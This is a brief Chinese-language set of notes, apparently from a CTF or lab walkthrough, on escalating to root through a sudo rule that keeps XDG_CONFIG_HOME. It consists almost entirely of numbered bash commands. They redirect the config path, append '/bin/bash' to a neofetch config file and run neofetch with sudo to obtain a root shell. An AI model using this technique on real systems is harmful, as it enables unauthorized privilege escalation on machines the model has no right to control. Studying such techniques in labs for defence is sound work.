 # 存在env\_keep+=XDG\_CONFIG\_HOME

```bash
1. 查看用户xdg设置情况
echo "$XDG_CONFIG_HOME"
2. 查看用户home
echo "$HOME"
3. 强制修改xdg指向
export XDG_CONFIG_HOME="$HOME/.config" 
4. 写入
echo "/bin/bash" >> /home/thomas/.config/neofetch/config.conf 
5. 执行
sudo /usr/bin/neofetch \"\" （后面的\"\" 是他们来sudo -l就自带的防止夹带命令的）
```
